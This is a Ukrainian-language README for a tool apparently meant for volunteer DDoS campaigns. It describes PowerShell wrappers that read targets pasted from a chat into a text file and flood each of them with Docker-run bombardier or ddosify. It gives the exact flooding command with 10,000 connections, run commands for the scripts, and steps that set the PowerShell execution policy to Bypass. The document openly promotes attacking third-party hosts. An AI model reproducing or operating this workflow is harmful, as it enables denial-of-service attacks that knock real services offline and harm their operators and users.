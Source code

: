 # DDoS_single_command
 
Народ, хто з докера дудосить та з вінди, я вирішив спростити нам життя, в архіві 2 файла: 
* .ps1 — сам скріпт, можна викликати через 
    ```
    .\commands\bombardier_docker-DDoS.ps1
    or
    .\commands\ddosify_docker-DDoS.ps1
    ```
    з PowerShell або командою 
    ```
    powershell.exe -noexit '.\commands\bombardier_docker-DDoS.ps1'
    or
    powershell.exe -noexit '.\commands\ddosify_docker-DDoS.ps1'
    ```
    з cmd

* .txt — інструкції для контейнера докера, там є через "#" написані коментарі, що має бути нижче стрічкою за дані, потім самі дані. Спочатку йде тривалість дудосу (однакова на всі цілі), а потім самі цілі (довільна кількість).

Я це зробив, щоб простіше було забивати кілька цілей, ви копіюєте з чату, вставляєте в файлик і вуаля — всі бомбляться (не залишайте, будь ласка, порожніх строк у тестовому файлі та не ставте зайвих "ентерів"

P.S.: якщо вставилося з пробілами між IP та портом — нічого, з цим скріпт впорається. Бажано спочатку 1 раз докером запуститися командою вручну:
docker run -ti --rm alpine/bombardier -c 10000 -d (тривалість)s -l  (адреса цілі)
І звісно ж умова встановлення докера на ПК не знімається.

Чекатиму фідбеку

# Поширені проблеми

Якщо cmd мовчить, а PowerShell виводить подібне:

![error-ps](./images/error.png)

Наступні команди повинні допомогти:

```
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force
```

```
Get-ExecutionPolicy
```

```
Get-ExecutionPolicy -list  
```

Вивід повинен виглядати приблизно наступним чином:

![resolving](./images/resolving.png)

Після цього спробуйте знову, все повинно працювати як слід.
___
Щоб повернути все як було введіть:

```
set-ExecutionPolicy Restricted -Scope CurrentUser
```